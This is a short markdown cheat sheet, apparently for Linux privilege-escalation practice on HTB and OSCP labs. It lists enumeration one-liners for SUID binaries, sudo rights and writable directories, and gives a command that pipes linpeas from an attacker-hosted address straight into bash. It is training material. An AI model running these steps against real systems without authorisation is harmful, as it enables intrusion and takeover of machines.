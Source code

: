 # Common Privesc Methods

For Linux privesc I usually like enumerating all directories and unusual files I have access too, and then, running a common binary and some one-liners.

## Identifying Privesc Vector

### One-Liners

Run the following one-liners to enumerate your privs on the box:

- `uname -a` == Gives you linux kernel ver.
- `sudo -l` == Shows you where you have SUDO privs.
- `find / -perm -u=s -type f 2>/dev/null` == Locate SUID Binaries.
- `find / -writable -type d 2>/dev/null` == Locate files you have write access to.

These commands will find the majority of privesc vectors on HTB and OSCP. There is more commands you should try if these don't work but I usually head to linpeas after these.

### Linpeas

Linpeas is a bit outdated but is still effective at finding attack vectors.

```bash
curl -sL http://<myip>/linpeas.sh | bash
```

It is important to carefully read over the output, even the output that linpeas doesn't highlight red.

### Furthur Enumeration

If the `one-liners` **AND** `linpeas` didn't find anything useful, the answer is probably very simple. You most likely just need to like into the files you have read access too. This includes things like:

- Web config files and source code.
- Files in your users home directory.
- Application version exploit *OR* Linux kernel exploit.

If none of the above worked or showed anything interesting, restart from the top, you probably missed something.

## Obtaining Root
